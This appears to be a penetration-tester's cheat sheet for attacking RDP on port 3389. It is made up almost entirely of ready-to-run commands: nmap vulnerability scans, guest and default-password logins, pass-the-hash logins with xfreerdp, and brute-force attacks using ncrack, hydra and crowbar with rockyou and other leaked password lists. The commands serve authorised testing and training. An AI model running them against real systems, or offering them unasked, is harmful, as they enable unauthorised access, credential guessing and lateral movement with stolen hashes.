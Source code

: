 # 3389 (RDP)

## Enumeration

### Checks

* [ ] Check if you can login with default guest account and blank password
* [ ] Check if you can brute force users
* [ ] Check for BlueKeep

### nmap

```bash
nmap -p 3389 --script=rdp-enum-encryption,rdp-vuln-ms12-020 <IP> -o 3389_nmap_rdp
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```

### Check known credentials

```bash
rdp_check <domain>/<name>:<password>@<IP>  # rdp_check.py from impacket
```

### Manual Login

#### rdesktop

```bash
rdesktop <IP>

# Try default guest account "guest":""
rdesktop -u guest <IP> -g 94%
rdesktop -u guest -p guest <IP> -g 94%

rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
```

#### xfreerdp

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:[IP] /u:bitbucket /p:[PW]

xfreerdp /u:username /p:password /cert:ignore /v:MACHINE_IP
xfreerdp /u:[DOMAIN\]<USERNAME> /p:<PASSWORD> /v:<IP>

xfreerdp /u:[DOMAIN\]<USERNAME> /pth:<HASH> /v:<IP>

xfreerdp /u:[domain\]<username> /p:<password> /v:<IP>
xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP>
```

## Brute Force

#### ncrack

```bash
ncrack -vv --user Administrator -P /usr/share/wordlists/rockyou.txt rdp://<IP>
ncrack -vv --user Administrator -P /usr/share/seclists/Passwords/darkweb2017-top100.txt rdp://<IP>

ncrack -vv --user Administrator -P /root/passwords.txt rdp://<IP>
```

#### Hydra

```bash
hydra -l username -P /usr/share/wordlists/rockyou.txt -t 5 -V ip_address rdp
hydra -f -L <USERS_LIST> -P <PASSWORDS_LIST> rdp://<IP> -u -vV
```

#### crowbar

```bash
crowbar -b rdp -s <IP>/CIDR -u <USER> -C <PASSWORDS_LIST>
crowbar -b rdp -s <IP>/CIDR -U <USERS_LIST> -C <PASSWORDS_LIST>
```
